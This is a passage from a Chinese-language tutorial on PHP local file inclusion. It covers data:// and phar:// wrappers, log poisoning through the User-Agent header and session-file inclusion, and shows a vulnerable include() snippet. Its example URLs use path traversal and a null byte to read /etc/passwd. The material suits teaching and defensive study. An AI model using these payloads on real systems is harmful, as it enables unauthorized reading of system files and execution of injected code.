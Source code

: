 上面URL中的Base64编码内容解码后是<?php phpinfo();?>  
。  
### 3. phar://伪协议  
  
phar://  
是PHP 5.3.0引入的压缩包包装器，可以访问PHP归档文件内的内容：  
```
http://vulnerable-site.com/page.php?file=phar://uploaded_file.jpg/malicious_script.php

```  
  
这种技术允许攻击者绕过文件扩展名限制，上传看似无害的图片文件，实际包含恶意PHP代码。  
### 4. 包含日志文件  
  
Apache、Nginx等Web服务器通常会记录访问日志。攻击者可以先在User-Agent等HTTP头中注入PHP代码，然后包含日志文件执行：  
```
http://vulnerable-site.com/page.php?file=/var/log/apache2/access.log

```  
  
这种技术利用了服务器会记录HTTP请求信息到日志的特性，将恶意代码植入日志后通过LFI执行。  
### 5. 包含会话文件  
  
PHP默认将会话文件存储在/tmp  
目录下。如果攻击者能控制会话内容并知道会话ID，可以包含并执行会话文件：  
```
http://vulnerable-site.com/page.php?file=/tmp/sess_SESSIONID

```  
## 实战案例分析  
### 案例1：基础LFI漏洞  
  
考虑以下代码：  
```
<?php
$file = $_GET['page'] . '.php';
include($file);
?>

```  
  
这段代码看似安全（强制添加了.php后缀），但攻击者可以使用/../  
路径遍历或空字节注入绕过限制：  
```
http://vulnerable-site.com/index.php?page=../../../etc/passwd%00

```  
>   
> 注：空字节注入(%00)技术在PHP 5.3.4之后已被修复，但在旧系统中仍可能存在。  
  
### 案例2：命令执行与代码注入  
  
以下代码存在文件包含漏洞和命令执行漏洞：  
```
<?php
$hello = $_GET['hello'];
var_dump($hello);
?>

```  
  